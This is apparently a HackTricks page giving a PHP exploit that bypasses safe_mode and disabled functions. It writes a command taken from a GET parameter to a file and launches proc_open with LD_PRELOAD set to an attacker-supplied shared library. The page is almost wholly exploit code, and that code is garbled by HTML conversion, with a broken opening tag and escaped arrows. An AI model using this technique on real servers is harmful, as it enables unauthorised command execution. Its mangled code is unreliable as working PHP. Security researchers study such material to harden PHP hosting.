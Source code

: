 # PHP safe_mode bypass via proc_open and custom environment Exploit

{{#include ../../../../banners/hacktricks-training.md}}

From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

```php
<!--p $path="/var/www"; //change to your writable path $a=fopen($path."/.comm","w"); fputs($a,$_GET["c"]); fclose($a); $descriptorspec = array(  0--> array("pipe", "r"),
 1 =&gt; array("file", $path."/output.txt","w"),
 2 =&gt; array("file", $path."/errors.txt", "a" )
); $cwd = '.'; $env = array('LD_PRELOAD' =&gt; $path."/a.so"); $process = proc_open('id &gt; /tmp/a', $descriptorspec, $pipes, $cwd, $env); // example command - should not succeed sleep(1); $a=fopen($path."/.comm1","r");
echo "<strong>";
while (!feof($a))
{$b=fgets($a);echo $b;} fclose($a);
?&gt;;
</strong>
```

{{#include ../../../../banners/hacktricks-training.md}}




